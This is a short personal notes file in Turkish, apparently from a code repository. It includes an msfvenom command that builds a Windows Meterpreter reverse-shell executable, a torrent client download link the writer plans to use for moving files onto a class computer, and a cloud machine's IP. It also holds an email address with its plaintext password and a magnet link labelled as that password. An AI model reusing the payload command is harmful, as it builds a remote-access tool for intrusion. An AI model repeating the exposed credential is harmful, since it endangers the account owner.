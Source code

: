 notlarımı buraya yazıcam
metasploitte ./msfvenom ile payload oluşturma
./msfvenom -p windows/meterpreter/reverse_tcp LHOST=kendi ip adresim LPORT=4444 -f exe -o payloadismi.exe
UTorrent indirme linki bunu bilişimsinifina dosya alıp çekmek için kullanıcma
https://download-hr.utorrent.com/track/stable/endpoint/utorrent/os/riserollout?filename=utorrent_installer.exe
Google Cloud makinemin ip adresi 10.88.0.4 bunu unutmam lazım
10.88.0.4
10.88.0.4
10.88.0.4
dikkatliizlersenhaklimmegatron@gmail.com un şifresi
falconstrike999
magnet:?xt=urn:btih:B36A22C38BA8A6A52EF4F5C4043B2FE1A9EF32E8&dn=%c5%9fifrre%20kullan%c4%b1c%c4%b1%20ad%c4%b1.txt&tr=udp%3a%2f%2ftracker.openbittorrent.com%3a80%2fannounce&tr=udp%3a%2f%2ftracker.opentrackr.org%3a1337%2fannounce
şifremin torrent hali
hani şeyler olunca burada paylaşıcam
